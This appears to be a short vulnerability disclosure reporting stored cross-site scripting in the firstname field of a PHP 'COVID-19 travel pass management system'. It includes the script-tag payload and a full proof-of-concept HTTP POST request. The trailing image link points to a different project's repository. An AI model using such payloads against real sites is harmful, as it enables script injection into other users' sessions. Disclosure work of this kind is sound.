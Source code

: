 # covid-19-travel-pass-management-system v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ctpms/classes/Users.php?f=save

Vulnerability location: /ctpms/classes/Users.php?f=save, firstname

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /ctpms/classes/Users.php?f=save HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------3611536016190209454970609370
Content-Length: 1036
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/ctpms/admin/?page=user/manage_user&id=7
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="id"

7
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="firstname"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="middlename"

dgfd
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="lastname"

gfdf
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="username"

gdf
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="password"


-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="type"

1
-----------------------------3611536016190209454970609370
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------3611536016190209454970609370--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)